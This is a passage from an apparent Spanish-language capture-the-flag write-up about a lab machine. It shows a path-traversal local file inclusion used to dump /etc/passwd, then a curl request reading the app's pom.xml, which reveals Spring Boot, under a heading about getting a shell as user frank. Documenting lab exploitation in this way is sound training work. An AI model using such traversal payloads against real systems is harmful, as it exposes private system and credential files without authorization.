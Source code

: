 ```
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
frank:x:1000:1000:frank:/home/frank:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
phil:x:1001:1001::/home/phil:/bin/bash
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:997:996::/var/log/laurel:/bin/false

```

Ha funcionado. Hemos logrado provocar un LFI. Ahora podemos visualizar archivos a los cuales no deberíamos tener acceso a través del sitio web de la máquina víctima, aprovechando esta vulnerabilidad.


### Shell as Frank

Luego de enumerar un poco el sistema, logramos ver que emplea Spring Framework:

```
elswix@parrot > curl -s 'http://10.129.35.222:8080/show_image?img=../../../pom.xml'

<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
	xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
	<modelVersion>4.0.0</modelVersion>
	<parent>
		<groupId>org.springframework.boot</groupId>
		<artifactId>spring-boot-starter-parent</artifactId>
		<version>2.6.5</version>
		<relativePath/> <!-- lookup parent from repository -->
	</parent>
	<groupId>com.example</groupId>
	<artifactId>WebApp</artifactId>
	<version>0.0.1-SNAPSHOT</version>
	<name>WebApp</name>
	<description>Demo project for Spring Boot</description>
	<properties>
		<java.version>11</java.version>
	</properties>
	<dependencies>
		<dependency>
  			<groupId>com.sun.activation</groupId>
  			<artifactId>javax.activation</artifactId>
  			<version>1.2.0</version>
		</dependency>

		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-thymeleaf</artifactId>
		</dependency>
		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-web</artifactId>
		</dependency>

		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-devtools</artifactId>
			<scope>runtime</scope>
```